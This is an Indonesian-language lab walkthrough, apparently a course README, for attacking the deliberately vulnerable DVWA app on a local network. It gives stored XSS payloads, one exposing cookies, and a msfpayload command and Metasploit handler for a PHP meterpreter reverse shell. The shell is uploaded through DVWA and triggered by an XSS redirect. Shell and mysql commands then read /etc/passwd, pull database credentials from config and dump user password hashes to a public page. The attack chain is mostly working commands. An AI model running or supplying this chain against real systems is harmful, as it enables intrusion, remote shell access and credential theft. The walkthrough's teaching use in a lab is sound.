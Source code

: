 ## LESSON 9

Inti dari Lesson 10 adalah mendapatkan 7 hal, yaitu:
1. Test **Basic Cross Site Scripting (XSS)** attack
2. Test **Iframe Cross Site Scripting (XSS)** attack
3. Test **Cookie Cross Site Scripting (XSS)** attack
4. Membuat **php/meterpreter/reverse_tcp payload**
5. Menjalankan **php/meterpreter/reverse_tcp listener**
6. Mengunggah **PHP paload** lewat **DVWA Upload Screen**
7. Test **PHP Payload** menggunakan **Cross Site Scripting (XSS) attack**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Fix Stored Cross Site Scripting (XSS)**
1. Masukkan command

```
cd /var/www/html/dvwa/vulnerabilities/xss_s/
nano index.php
```

![SS 1](LESSON_9/1.png)

2. Mengganti panjang **mtxMessage** menjadi **250** di dalam **index.php**

![SS 2](LESSON_9/2.png)

**B. Enable Javascript**
1. Masuk ke **Firefox**, klik **Edit** -> **Preferences* -> **Content**, Centang **Block pop-up Windows** dan **Enable JavaScript**

![SS 3](LESSON_9/3.png)

**C. XSS Stored Basic Exploit Test**
1. Pilih menu **XSS Stored**, lalu isi **Name** dengan **Test 1** dan **Message** dengan

```
<script>alert("This is a XSS Exploit Test")</script>
```

![SS 4](LESSON_9/4.png)

Lalu

![SS 5](LESSON_9/5.png)

Hasil

![SS 6](LESSON_9/6.png)

**D. XSS Stored IFRAME Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**

![SS 7](LESSON_9/7.png)

Hasil

![SS 8](LESSON_9/8.png)

2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 2** dan **Message** dengan

```
<iframe src="http://www.cnn.com"></iframe>
```

![SS 9](LESSON_9/9.png)

Hasil

![SS 10](LESSON_9/10.png)

**E. XSS Stored COOKIE Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**

![SS 11](LESSON_9/11.png)

2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 3** dan **Message** dengan

```
<script>alert(document.cookie)</script>
```

![SS 12](LESSON_9/12.png)

Hasil

![SS 13](LESSON_9/13.png)

**F. Build PHP msfpayload**
1. Masukkan command ini

```
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > FORUM_BUG.php
```

![SS 14](LESSON_9/14.png)

2. **Edit** **FORUM_BUG.php**

![SS 15](LESSON_9/15.png)

**G. Upload PHP Payload**
1. Pilih **Upload** dan pilih **FORUM_BUG.php**

![SS 16](LESSON_9/16.png)

Hasil

![SS 17](LESSON_9/17.png)

2. Jalankan **PHP Listener**

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```

![SS 18](LESSON_9/18.png)

**H. XSS Stored window.location Exploit Test**
1. Pilih **Setup** pada DVWA dan klik **Create / Reset Database Button**

2. Pilih **XSS Stored** pada DVWA dan isi **Name** dengan **Test 4** dan **Message** dengan

```
<script>window.location="http://192.168.1.103/dvwa/hackable/uploads/FORUM_BUG.php" </script>
```

![SS 19](LESSON_9/19.png)

Hasil

![SS 20](LESSON_9/20.png)

**NOTE**
- Terdapat icon **Connecting**

**I. View Metasploit Session**
1. **Backtrack** mendapatkan jawaban

![SS 21](LESSON_9/21.png)

2. Melakukan koneksi **Shell**

```
shell
tail /etc/passwd
```

![SS 22](LESSON_9/22.png)

3. Mencari **File Konfigurasi**

```
whoami
grep apache /etc/passwd
find /var/www/* -print | grep config
```

![SS 23](LESSON_9/23.png)

4. Exploit **File Konfigurasi**

```
grep "db_" /var/www/html/dvwa/config/config.inc.php
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select user,password from dvwa.users;" | mysql -uroot -psanisani
```

![SS 24](LESSON_9/24.png)

![SS 25](LESSON_9/25.png)

```
echo "<pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "</pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "<br>Your Name<br>" >> /var/www/html/dvwa/hackable/uploads/xss.html
date >> /var/www/html/dvwa/hackable/uploads/xss.html
```

![SS 26](LESSON_9/26.png)

**J. Testing**
1. Akses halaman
```
http://192.168.1.103/dvwa/hackable/uploads/xss.html
```

![SS 27](LESSON_9/27.png)

### Kesimpulan Lesson 9

Menggunakan **XSS** dapat mengetahui konten dari **Database**
